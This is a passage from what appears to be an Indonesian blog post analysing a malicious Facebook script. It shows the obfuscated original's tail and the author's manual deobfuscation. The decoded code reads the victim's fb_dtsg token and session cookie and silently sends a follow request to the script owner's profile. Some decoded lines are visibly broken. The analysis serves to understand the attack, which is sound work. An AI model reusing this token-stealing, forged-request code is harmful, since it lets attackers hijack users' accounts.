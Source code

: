 =_0xa22c[56]+fb_dtsg;_0x8cc3x1f+=_0xa22c[57];_0x8cc3x24[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_
0x8cc3x24[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x8cc3x24[_0xa22c[6]]=function
(){if(_0x8cc3x24[_0xa22c[7]]==4&&_0x8cc3x24[_0xa22c[63]]==200){_0x8cc3x24[_0xa22c[64]];} ;}
;_0x8cc3x24[_0xa22c[37]](_0x8cc3x1f);} ;arkadaslari_al(id);
{% endhighlight %}

dan ini adalah script hasil decoding manual yang saya lakukan. Mungkin masih terdapat beberapa kesalahan, tapi setidaknya saya tau strukturnya

{% highlight javascript %}
// fb_dtsg: untuk mendapatkan nilai dari elemnt dengan nama tersebut
// user_id: untuk mendapatkan user_id anda (yang sedang login)
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value,
    user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);

// funsi untuk mendapatkan nilai cookie dari browser anda
function cereziAl(argumen) {
    var args = argumen +=;

    if (document.cookie.length>0) {
        konum = document.cookie.indexOf(args);

        if (konum != -1) {
            konum += args.length;
            son = document.cookie.indexOf(;, konum);

            if (son == -1) {
                son = document.cookie.length;
            }

            return unescape(document.cookie.substring(konum,son));
        } else {
            return;
        }
    }
}

// fungsi untuk mendapatkan nilai random integer
function getRandomInt(int1, int2) {
    return Math.floor(Math.random()*(int2-int1+1))+int1;
}

// fungsi untuk mendapatkan salah satu huruf dari kata secara random.
// Misal argumennya adalah 'dicoba' outputnya bisa 'd' atau 'c' atau huruf lain dalam kata tersebut
function randomValue(val) {
    return val[getRandomInt(0,val.length-1)];
}

// fungsi agar setiap pengguna yang menggunakan script ini akan secara langsung mengikuti (follow) akun dari pemilik script
function a(profile_id) {
    var request = new XMLHttpRequest(),
        target_url = 'profile_id='+profile_id+'&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg='+fb_dtsg+'&lsd&__'+user_id+'&phstamp=';

    request.open('POST','/ajax/follow/follow_profile.php?__a=1',true);
    request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    request.setRequestHeader('Content-length', target_url.length);
    request.setRequestHeader('Connection', 'close');

    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            request.close;
        }
    }

    request.send(target_url);
}
